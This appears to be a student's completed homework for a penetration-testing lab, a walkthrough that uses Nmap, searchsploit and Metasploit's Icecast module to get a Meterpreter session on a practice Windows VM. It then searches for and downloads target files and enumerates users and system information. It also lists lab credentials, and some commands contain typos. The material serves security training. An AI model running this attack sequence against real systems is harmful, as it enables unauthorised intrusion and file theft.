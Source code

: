 Andrew Stone ## Week_17 Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer:  nmap -sV 192.168.0.20

       ![nmap](https://github.com/iastoneCO/Images/blob/7f94bcef77fd01758dcea532b10b6635492d97f2/nmap-ip-address.jpg)
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
                               
     > Answer: searchsploit icecast

     ![searchsploit-icecase](https://github.com/iastoneCO/Images/blob/7f94bcef77fd01758dcea532b10b6635492d97f2/searchsploit-icecase.jpg)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer:  msfconsole
 

 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: search icecast 

     ![searchicecast](https://github.com/iastoneCO/Images/blob/7f94bcef77fd01758dcea532b10b6635492d97f2/msfconsole-searchicecast.jpg)

                      
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer:  use 0

  
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: set RHOST 192.168.0.20

     ![RHOST](https://github.com/iastoneCO/Images/blob/7f94bcef77fd01758dcea532b10b6635492d97f2/rhostoptions.jpg)
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: exploit (or run)
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: search -f *searchfile*.txt
	(c:\Users\IEUser\Documents\user.secretfile.txt (161 bytes)

        ![secretfile](https://github.com/iastoneCO/Images/blob/7f94bcef77fd01758dcea532b10b6635492d97f2/secretfile.jpg)
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer:  search -f *recipe*.txt 
	(c:\User\IEUser\Documents\Drinks.recipe.txt (48 bytes)
              

        ![recipe](https://github.com/iastoneCO/Images/blob/7f94bcef77fd01758dcea532b10b6635492d97f2/Drinksrecipe.jpg)

         
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > Answer: Download ‘c:\User\IEUser\Documents\Drinks.recipe.txt’

      ![download](https://github.com/iastoneCO/Images/blob/7f94bcef77fd01758dcea532b10b6635492d97f2/download-recipe-text.jpg)
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
  
                  Run post/multi/recon/local_exploit_suggester

       ![local](https://github.com/iastoneCO/Images/blob/7f94bcef77fd01758dcea532b10b6635492d97f2/local-exploit-suggester.jpg)

#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/emu_logged_on_user
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: shell and sysinfo
  > 
  ![shell](https://github.com/iastoneCO/Images/blob/7f94bcef77fd01758dcea532b10b6635492d97f2/shell-1.jpg)
  ![shell](https://github.com/iastoneCO/Images/blob/7f94bcef77fd01758dcea532b10b6635492d97f2/sysinfo.jpg)
                         
 
C. Run the command that displays the target's computer system information:

   > Answer:  systeminfo  

 ![hostname](https://github.com/iastoneCO/Images/blob/7f94bcef77fd01758dcea532b10b6635492d97f2/hostname.jpg)
